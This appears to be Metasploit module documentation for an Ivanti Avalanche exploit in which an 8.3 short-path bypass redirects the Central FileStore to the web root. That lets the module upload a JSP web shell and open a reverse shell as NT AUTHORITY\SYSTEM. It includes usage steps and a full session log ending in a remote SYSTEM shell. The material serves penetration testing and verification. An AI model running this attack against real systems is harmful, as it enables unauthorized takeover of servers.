 ## Vulnerable Application

For vulnerable versions of Ivanti Avalanche, an authenticated administrator
can change the default path for the Central FileStore. While the default path
is set to `C:\Program Files\Wavelink\Avalanche\EnterpriseServer\centralfilestore\files`,
Ivanti Avalanche restricts the path from being set to folders within the `Windows` and
`Program Files` directories. These restrictions do not account for MS-DOS (8.3) path
names, so this naming convention can be used to set the Central FileStore path to
the web root of the application. This module leverages the vulnerability to
upload a JSP web shell and gain RCE as `NT AUTHORITY\SYSTEM`.

### Installation Instructions

The software requires a version MSSQL server to be installed. The installation
instructions use MSSQL Server 2012, but 2017 worked for my setup. Ensure that
`SQL Server and Windows Authentication Mode` are selected as the default for
server authentication. That can either be done at installation or via
SQL Server Management Studio.

1. Open SQL Server Management Studio and connect to the instance
2. Right click on the instance and select `Properties`
3. Click the `Security` page
4. Underneath `Server Authentication`, select `SQL Server and Windows Authentication Mode` and `Ok`

Instructions for installing Ivanti Avalanche can be found [here](https://forums.ivanti.com/s/article/Best-Known-Method-for-installing-Avalanche-6-x-using-MSSQL-Server-2008-R2-Express-DB-or-2012-Express-Advanced?language=en_US)

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/http/ivanti_avalanche_filestoreconfig_upload`
4. Do: `set USERNAME <uname>`
5. Do: `set PASSWORD <pass>`
6. Do: `set RHOST <ip>`
7. Do: `run`
8. You should get a shell as NT AUTHORITY\SYSTEM.

## Options

### USERNAME

An admin user with which to log into the software

### PASSWORD

Password belonging to admin user

## Scenarios

### Ivanti Avalanche v6.3.4.153 - Windows 10 x64

```
msf6 > use exploit/windows/http/ivanti_avalanche_filestoreconfig_upload
[*] No payload configured, defaulting to generic/shell_reverse_tcp
msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > set rhost 192.168.140.150
rhost => 192.168.140.150
msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > options

Module options (exploit/windows/http/ivanti_avalanche_filestoreconfig_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Password to log in with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.140.150  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics
                                         /using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /AvalancheWeb    yes       The URI of the Example Application
   USERNAME   amcadmin         yes       User name to log in with
   VHOST                       no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.140.1    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Original FileStore config path: 'C:\Program Files\Wavelink\Avalanche\EnterpriseServer\centralfilestore\files'
[*] Changing FileStore config path to 'C:\PROGRA~1\Wavelink\AVALAN~1\Web'
[+] Successfully uploaded 'LWRrxDXWxhbz.jsp'
[*] Attempting to restore config path
[!] Tried to delete webapps/LWRrxDXWxhbz.jsp, unknown result
[*] Command shell session 1 opened (192.168.140.1:4444 -> 192.168.140.150:50249) at 2023-05-08 14:27:58 -0500
[!] Failed to restore the FileStore config path to its original path. Please manually restore it.
[+] Successfully restored the FileStore config path


Shell Banner:
Microsoft Windows [Version 10.0.19041.630]
-----


C:\Program Files\Wavelink\Avalanche\Web>
C:\Program Files\Wavelink\Avalanche\Web>
C:\Program Files\Wavelink\Avalanche\Web>whoami
whoami
nt authority\system

C:\Program Files\Wavelink\Avalanche\Web>^C
Abort session 1? [y/N]  y

[*] 192.168.140.150 - Command shell session 1 closed.  Reason: User exit
```
